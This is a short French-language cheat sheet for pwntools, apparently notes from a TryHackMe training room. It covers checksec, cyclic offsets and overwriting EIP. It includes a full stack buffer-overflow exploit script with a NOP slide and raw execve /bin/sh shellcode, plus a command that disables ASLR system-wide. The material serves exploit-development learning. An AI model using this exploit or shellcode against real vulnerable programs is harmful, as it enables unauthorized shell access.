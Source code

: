 ## Checksec 

Pour checker les protections d'un programme
```
checksec <elf>
```

## Cyclic

Créer un pattern :
```
padding = cyclic(100)
```
Trouver un pattern particulier :

```
padding = cyclic(cyclic_find('jaaa'))
```

## Ecrire dans EIP

```
eip = p32(0xdeadbeef)
payload = padding + eip
```

Autre :

Trouver avec GDB l'adresse de ESP (pointeur de la stack), puis

```
eip = p32(<adresseESP> + <Offset>)
```
L'offset peut être égale à 8/16 ou plus ! Il sert à faire pop le shellcode plus loin dans la stack

## Shellcode crafting

```
shellcraft i386.linux.execve "/bin///sh" "['sh', '-p']" -f s
```

## Exemple de script 

```
from pwn import *

proc = process('./intro2pwnFinal')
proc.recvline()
padding = cyclic(cyclic_find('taaa'))
eip = p32(0xffffd510+200)
nop_slide = "\x90"*1000
shellcode = "jhh\x2f\x2f\x2fsh\x2fbin\x89\xe3jph\x01\x01\x01\x01\x814\x24ri\x01,1\xc9Qj\x07Y\x01\xe1Qj\x08Y\x01\xe1Q\x89\xe11\xd2j\x0bX\xcd\x80"
payload = padding + eip + nop_slide + shellcode
proc.send(payload)
proc.interactive()
```

Ici beaucoup de NOP sont présent de sorte à ce que notre shellcode puisse atterir tranquillement dans la stack.
Pour désactivé ASLR avec sudo : 
```
echo 0 | tee /proc/sys/kernel/randomize_va_space
```
Source : <a href="https://tryhackme.com/room/introtopwntools">TryHackMe</a>
